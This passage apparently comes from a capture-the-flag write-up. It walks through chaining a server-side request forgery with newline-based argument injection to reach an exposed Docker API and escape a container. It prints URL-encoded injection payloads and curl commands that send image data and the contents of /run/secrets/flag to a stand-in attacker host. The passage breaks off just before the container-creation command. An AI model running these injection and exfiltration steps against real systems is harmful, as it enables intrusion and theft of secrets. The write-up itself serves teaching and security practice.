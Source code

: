 This will require two curl commands for the solitary container, which look something like this:

```bash
curl http://container_ip:2375/images/json -o /tmp/images.json
curl http://attacker_ip --json @/tmp/images.json
```

These can each be reflected by the connection test with these two urls:
```
http://nginx/admin?host=prison:5005&method=container_ip%3A2375%2Fimages%2Fjson+-o+%2Ftmp%2Fimages%0a
http://nginx/admin?host=prison:5005&method=attacker_ip+--json+%40%2Ftmp%2Fimages%0a
```

These urls can be requested through the image download by redirecting off of the attacker's server.
```
 > http://challenge_ip/http://attacker_ip/redirect
 < http://nginx/admin?host=prison:5005&method=container_ip%3A2375%2Fimages%2Fjson+-o+%2Ftmp%2Fimages%0a
```


Executing these dumps a list of images, such as this:

```json
[
  {
    "Containers": -1,
    "Created": 1737668671,
    "Id": "sha256:3cfeb6abdca1b55f65d30b2e2cc02ddfb7ba742074295e5aadef44f42f7d9dd5",
    "Labels": {
      "com.docker.compose.project": "prison",
      "com.docker.compose.service": "solitary",
      "com.docker.compose.version": "2.32.4"
    },
    "ParentId": "",
    "RepoDigests": [],
    "RepoTags": [
      "prison-solitary:latest"
    ],
    "SharedSize": -1,
    "Size": 154226393
  }
]
```

We can just re-use the same image already used for the inner container, `prison-solitary:latest`, since it already has curl installed.  We just need to mount the outer root directory, and set the entrypoint command to exfiltrate the flag via curl.

Docker stores secrets in `/run/secrets/`, so we can just exfiltrate the flag with a curl command like this:

```bash
curl http://attacker-ip -d @/run/secrets/flag
```

Therefore, the new container can be created with a curl command like this:
